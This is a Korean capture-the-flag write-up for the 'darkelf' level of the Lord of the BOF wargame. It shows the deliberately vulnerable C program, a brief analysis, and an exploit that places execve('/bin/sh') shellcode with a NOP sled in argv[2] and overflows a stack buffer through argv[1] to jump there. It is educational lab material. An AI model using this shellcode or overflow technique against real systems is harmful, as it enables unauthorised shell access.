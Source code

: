 ```yaml
---
layout: post
title:  "[LOB]Level06. darkelf"
subtitle:   "[LOB]wolfman → darkelf"
categories: Wargame[LOB]
tags:
- Wargame
- LOB
- Write-up
---
```


## keyword : check length of argv[1] + egghunter + bufferhunter

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - darkelf
        - egghunter + buffer hunter + check length of argv[1]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// egghunter
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	// check the length of argument
	if(strlen(argv[1]) > 48){
		printf("argument is too long!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

    // buffer hunter
    memset(buffer, 0, 40);
}
```



------



### 0x01. Analysis



argv[1]의 크기가 48보다 크면 안된다.

해당 문제 argv[1]의 크기를 제한하고 있으니 argv[2]에 넣으면 끝 아닌가? 😏



------



### 0x02. Exploit



```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

argv[2]에 NOP슬라이드와 쉘코드를 넣기 위해 core덤프를 통해 해당 주소를 구해오자.



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/06.darkelf/image-20180829014308881.png" width="700px">



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/06.darkelf/image-20180829015830365.png" width="600px">

argv[2]의 주소는 0xbffffbde로 확인되었다.



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/06.darkelf/image-20180829014955949.png" width="700px">



```
./darkelf `python -c 'print "A"*44+"\xde\xfb\xff\xbf"'` `python -c 'print "\x90"*50+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
```



**darkelf / kernel crashed**